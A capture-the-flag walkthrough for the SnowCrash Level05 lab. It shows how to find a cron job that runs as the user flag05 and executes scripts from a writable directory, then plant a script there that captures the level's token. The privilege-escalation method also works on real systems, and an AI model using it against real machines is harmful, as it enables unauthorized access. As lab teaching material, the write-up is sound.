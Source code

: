 # SnowCrash Level05 Guide
This guide will walk you through the process of finding the password for the `flag05` user.

## Procedure:

1. **Examine your environment using Unix commands.**
   
`ls -la` : Lists files and their permissions in the current directory.
Nothing interesting here.  
Other commands give us also no interesting outputs.

2. **Check the files belonging to the user flag05**

We are looking at files belonging to the user flag05
```bash
find / -user flag05 2>/dev/null
```
Returns
```bash
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```     
`/rofs` indicates that the file is read-only.

3. **Analyze the script '/usr/sbin/openarenaserver'**

We look at what the file '/usr/sbin/openarenaserver' contains
```bash
cat /usr/sbin/openarenaserver
```
Returns
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
Breaking down the script:
- It loops over all the files in the '/opt/openarenaserver' directory
- Executes the file with bash, with a runtime limited to 5 seconds (ulimit -t 5)
- Deletes the file

4. **Check '/opt/openarenaserver' directory**
We look at the files in the '/opt/openarenaserver' directory
```bash
ls -la /opt/openarenaserver
```
The directory is empty.
We now look for where the script '/usr/sbin/openarenaserver' is executed to execute our own script.

5. **Use `grep` to find any occurences**

Run the following command:
```bash
grep 'openarena' -R /var/ 2>/dev/null
```
Which returns:
```bash
...
/var/lib/aptitude/pkgstates.old:Package: openarena-data
/var/mail/level05:*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
/var/spool/mail/level05:*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
We can now see that the script is ran every 2 minutes.

6. **We can now inject commands and hope for the CRON task to run our script**

Run:
```bash
echo 'getflag > /tmp/flag_05' > /opt/openarenaserver/getflag.sh
```

After two minutes (pair)m, you should run:
```bash
cat  /tmp/flag_05
```
You will see the token appear.